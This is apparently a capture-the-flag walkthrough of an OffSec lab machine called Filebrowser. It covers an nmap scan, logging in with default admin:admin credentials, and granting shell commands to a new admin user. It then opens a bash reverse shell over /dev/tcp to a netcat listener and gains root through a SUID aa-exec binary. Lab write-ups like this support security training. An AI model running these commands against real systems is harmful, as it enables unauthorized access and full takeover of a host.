Offsec - Filebrowser - Walktrough
Reconnaissance
Let's start with an nmap scan

└─$ sudo nmap -p- 192.168.212.176A service scan would be unnecessary here because visiting the ip on port 8080 in the brower reveals a login page

Enumeration
The first thing I tried was using the user:pass combination of admin:admin
Which let me in by suprise.

Upon log in it seemed that I landed in someones home directory. Probably Linux.
I see a file called local.txt which looks like the flag.

I opened the file and it indeed contained the first flag

I noticed the following icon at the top of the page: "<>"
I clicked on it, it revealed a terminal:

"Command now allowed", I went to Settings -> Global Settings
I could define allowed commands there:

Adding these commands didn't work for the current user.
So I headed to Settings -> User Management and created a new user
Here, I could add allowed commands for that specific user, and so I did:
- Username: Londra
- Password: 1234
- Scope: .
- Administrator: check
- Commands: bash id
I then logged in as the new user, before executing the command I first started a netcat listener:
└─$ nc -nvlp 4444Then I executed the following command in the web terminal:
bash -c 'bash -i >& /dev/tcp/IP/4444 0>&1'This executed successfully and resulted in a reverse shell:

Exploitation
We are logged in as user david, so I had to escalate privileges.
One of the first things I normally do is searching for SUID binaries
I did so in this room as well, I executed the following command inside the reverse shell:
find / -type f -perm -04000 -ls 2>/dev/nullI found the following:

aa-exec is a Linux utility used to run a program under a specific AppArmor security profile. AppArmor is a kernel security system that restricts what a program is allowed to do (files it can read, commands it can run, network access, etc.). Think of it like a “permission cage” around processes.
Since this binary is owned by root and the sticky bit is set (SUID), we can execute aa-exec as root.
I crafted the following command to extract the root flag:
aa-exec -p unconfined -- /bin/bash -pAnd with success:

Now let's read the root flag

That's it, we got the root flag.
This was a relatively short room, but I enjoyed it.
I hope you did too, have a nice rest of your day :)